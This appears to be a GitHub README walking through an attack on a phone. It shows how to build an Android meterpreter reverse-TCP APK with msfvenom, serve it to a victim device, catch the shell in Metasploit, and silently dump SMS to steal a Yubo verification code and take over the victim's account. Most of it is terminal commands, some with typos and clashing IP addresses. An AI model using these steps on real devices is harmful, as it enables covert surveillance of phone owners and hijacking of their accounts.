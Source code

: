 vuln+exp:

First of all, let's get ourselves a victim phone or device: I am going to be using a Samsung Galaxy S6 running Android 7, kernel version 3.10.61-13830439 
and Knox 2.7.1. This phone is super old (and rooted, hence the outdated software) yet the exploit works.

Disclaimer: This exploit may work on Apple devices, however it is a different process as APK files do not run on iOS or OS X. 

First off, let's install Yubo. Once you have done this, make sure you have Metasploit installed. I will be using this in combination with a local Apache server
to transfer the APK easier. I will be using Ubuntu Budgie 20.04 but this works on any operating system.

First terminal command: ifconfig #this gives you the LHOST IP, indicated by 1.png in the repository.
Mine is 192.1.168.180 (yes, this only works on local networks however if you are a port forwarding nerd, this will work globally).

Next terminal command: [msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.180 LPOST=4444 R > attack.apk] #replace LHOST with your local IP.
LPORT is 4444, don't ask why, it just works. Also, don't ask why the R is there, again, it just works.

I am going to move this to my local Apache server - var/www/html/ but you can transfer via bluetooth, USB, google drive etc.

In the meantime, next terminal command: [msfconsole -q] #Ignore the sh!tty banner, we are getting down to business bois.
then, [use exploit/multi/handler] #this is our exploit handler.
Next, [set LHOST 192.168.1.180]  #again, replace with your local IP. LPORT should already be configured to 4444 in msfconsole.

Next, [set payload android/meterpreter/reverse_tcp] #this tells the exploit what payload to receive and handle.

Before you enter exploit, install the APK on the victim phone and leave it there. See 2.png in repository.

Enter [exploit] and click the APK once or twice. You should enter the phone.

If you don't get a functioning meterpreter shell, close the current session and show the sessions by typing (you guessed it), [sessions].
Switch session to a running one with [sessions -i 1] where 1 is the number of the session you want.

You now have full access to the phone, but don't get too excited. SMS is one of the only modules in here that is stealthy and the user gets no prompt
or knowledge of what we are doing. 

Go to Yubo > Sign up > enter random details >  enter the victim phone number - it will send a code. Here is where we come in. Go into your meterpreter
and type dump_sms (see P.O.C.png in repository).

I had to use prior screenshots from Kali seeing as the reverse_tcp was not connecting from my phone to computer. I will update these as soon
as it works again (it might actually be the new metasploit update).

I have also attached the screenshot of the dump_sms with the Yubo code.
